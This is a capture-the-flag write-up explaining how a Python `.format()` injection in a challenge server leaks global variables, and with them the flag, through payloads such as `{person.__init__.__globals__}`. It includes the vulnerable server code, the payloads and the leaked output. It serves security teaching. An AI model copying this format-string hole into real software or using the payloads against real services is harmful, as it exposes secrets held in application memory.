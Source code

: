 ```yaml
---
title: "Lag'n'Crash CTF: Formatploitable"
date: "2021-02-21T05:15:44Z"
description: "Write-up for Lag'n'Crash CTF challenge, formatploitable"
---
```

# Challenge Overview
> Our intel says that the flag is a global variable in this python program, yet we cannot retrieve it through normal means.
>
> nc challenge1.lagncrash.com 13028

Connecting to the server we are presented with four options.
```
Welcome to Rafale 1.0!
1) Create profile
2) View badge
3) Patch Notes
4) Exit
```

We can create a profile and provide a name and a bio:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
Hi, I'm Dave
```

We can display our profile:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : Hi, I'm Dave
╚════════════════════════════════════════════════
```

We can view patch notes:
```
(picked option 3)
Update 1.0.94795585:
The choice to format your profile has been added!

Example profile: Hi! Im {}, nice to meet you!

Further implementations coming soon!
```

# Solution
This challenge attempts to demonstrate the unsafe nature of Python's `.format()`.
Behind the scenes, the profile is displayed by a script similar to:
```python
class Person:
    def __init__(self, name, profile):
        self.name = name
        self.profile = profile


# Note that s is a socket
# When creating a profile:
name_format = s.recv(1024)
profile_format = s.recv(1024)
person = Person(name_format, profile_format)

# When displaying the profile
name = name_format.format(person=person)
s.sendall(name)
profile = profile_format.format(person=person)
s.sendall(profile)
```

We are expected to guess that the data is formatted using the `person` keyword
argument. Then, using the `Person` object, we access the global variables using
`__globals__`:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{person.__init__.__globals__}
```
Then, view our profile:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7b70094d00>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'Formatploitable.py', '__cached__': None, 'CONFIG': {'FLAG': '{sTr1ng_f0rm4tT1nG_xpl0it3d}'}, 'Person': <class '__main__.Person'>, 'cont': True, 'choice': '2', 'person': <__main__.Person object at 0x7f7b6ffaccd0>}
╚════════════════════════════════════════════════
```

So we can see the flag is `LNC{sTr1ng_f0rm4tT1nG_xpl0it3d}'}`.

# Explanation and other possibilities
## 1. Keyword arguments vs positional arguments
Personally, I had a lot of trouble finding the word that was used because I did
not expect to guess the keyword argument used.

The vulnerability demonstrated here can also be shown through positional
arguments:
```python
# When displaying the profile
name = name_format.format(person)
s.sendall(name)
profile = profile_format.format(person)
s.sendall(profile)
```
Then, the payload will need to be adjusted to:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{0.__init__.__globals__}
```

## 2. `__globals__` is only accessible by user-defined functions and imported functions
It should be noted that if the given code used is:
```python
# When displaying the profile
name = name_format.format(person.name)
s.sendall(name)
profile = profile_format.format(person.profile)
s.sendall(profile)
```

It is not possible to access the global variables. This is because `__globals__`
is a special attribute given to all [user-defined functions](https://docs.python.org/3/reference/datamodel.html#index-34)
and all [imported functions](https://docs.python.org/3/reference/datamodel.html#index-42).

For example, we have already seen a user-defined function (technically _method_)
in the `Person` object. The same problem will arise for functions:
```python
def hello():
    pass

print(hello.__globals__)
```

Likewise, for imported functions:
```python
import base64
print(base64.b64encode.__globals__)
```
Imported functions will display the `__globals__` for their module.
